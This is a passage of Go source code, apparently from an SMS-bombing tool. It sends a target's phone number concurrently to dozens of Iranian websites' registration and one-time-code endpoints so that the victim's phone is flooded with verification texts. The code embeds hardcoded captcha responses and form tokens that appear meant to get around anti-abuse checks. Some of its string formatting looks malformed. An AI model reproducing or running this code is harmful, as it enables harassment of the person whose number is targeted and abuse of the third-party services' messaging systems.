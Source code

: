 		s16 := fmt.Sprintf("'mobile':%s,'side':'web'", phone)
		go sms("https://api.raybit.net:3111/api/v1/authentication/register/mobile", map[string]interface{}{
			s16: phone,
		}, ch)
		go sms(fmt.Sprintf("https://api.torob.com/a/phone/send-pin/?phone_number=%s", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		go sms("https://www.namava.ir/api/v1.0/accounts/registrations/by-phone/request", map[string]interface{}{
			"UserName": phone,
		}, ch)
		go sms("https://gw.taaghche.com/v4/site/auth/signup", map[string]interface{}{
			"contact": phone,
		}, ch)
		go sms(fmt.Sprintf("https://core.gap.im/v1/user/add.json?mobile=%2B%s", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		s18 := fmt.Sprintf("'cellNumber': %s, 'device': {'deviceId': 'a16e6255-17c3-431b-b047-3f66d24c286f', 'deviceModel': 'WEB_BROWSER', 'deviceAPI': 'WEB_BROWSER', 'osName': 'WEB'}", phone)
		go sms("https://app.mydigipay.com/digipay/api/users/send-sms", map[string]interface{}{
			s18: phone,
		}, ch)
		s19 := fmt.Sprintf("'phone': %s, 'recaptcha-response': '03AGdBq25IQtuwqOIeqhl7Tx1EfCGRcNLW8DHYgdHSSyYb0NUwSj5bwnnew9PCegVj2EurNyfAHYRbXqbd4lZo0VJTaZB3ixnGq5aS0BB0YngsP0LXpW5TzhjAvOW6Jo72Is0K10Al_Jaz7Gbyk2adJEvWYUNySxKYvIuAJluTz4TeUKFvgxKH9btomBY9ezk6mxnhBRQeMZYasitt3UCn1U1Xhy4DPZ0gj8kvY5B0MblNpyyjKGUuk_WRiS_6DQsVd5fKaLMy76U5wBQsZDUeOVDD9CauPUR4W_cNJEQP1aPloEHwiLJtFZTf-PVjQU-H4fZWPvZbjA2txXlo5WmYL4GzTYRyI4dkitn3JmWiLwSdnJQsVP0nP3wKN0LV3D7DjC5kDwM0EthEz6iqYzEEVD-s2eeWKiqBRfTqagbMZQfW50Gdb6bsvDmD2zKV8nf6INvfPxnMZC95rOJdHOY-30XGS2saIzjyvg','token': 'e622c330c77a17c8426e638d7a85da6c2ec9f455'}, headers={'Host': 'gateway.wisgoon.com','content-length': '582','accept': 'application/json','save-data': 'on','content-type': 'application/json','origin': 'https://m.wisgoon.com','sec-fetch-site': 'same-site','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.wisgoon.com/','accept-encoding': 'gzip, deflate, br','accept-language': 'en-GB,en-US;q\u003d0.9,en;q\u003d0.8,fa;q\u003d0.7'", phone)
		go sms("https://gateway.wisgoon.com/api/v1/auth/login/", map[string]interface{}{
			s19: phone,
		}, ch)
		s20 := fmt.Sprintf("utf8=%E2%9C%93&phone_number=%s&g-recaptcha-response=", phone)
		go sms("https://tagmond.com/phone_number", map[string]interface{}{
			s20: phone,
		}, ch)
		s21 := fmt.Sprintf("'mobile': %s, 'country_id': 205", phone)
		go sms("https://api.doctoreto.com/api/web/patient/v1/accounts/register", map[string]interface{}{
			s21: phone,
		}, ch)
		s22 := fmt.Sprintf("'user': phone, 'app_id': 99", phone)
		go sms("https://api.anargift.com/api/people/auth", map[string]interface{}{
			s22: phone,
		}, ch)
		go sms(fmt.Sprintf("https://www.azki.com/api/core/app/user/checkLoginAvailability/%7B'phoneNumber':'azki_%v'%7D", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		s23 := fmt.Sprintf("'_token': 'mXBVe062llzpXAxD5EzN4b5yqrSuWJMVPl1dFTV6','mobile': %s,'password': 'ibvvb@3#9nc'", phone)
		go sms("https://lendo.ir/register?", map[string]interface{}{
			s23: phone,
		}, ch)
		s24 := fmt.Sprintf("'contactInfo[mobile]': %s,'contactInfo[agreementAccepted]': '1','contactInfo[teachingFieldId]': '1','contactInfo[eduGradeIds][7]': '7','submit_register': '1'", phone)
		go sms("https://www.olgoobooks.ir/sn/userRegistration/?&requestedByAjax=1&elementsId=userRegisterationBox", map[string]interface{}{
			s24: phone,
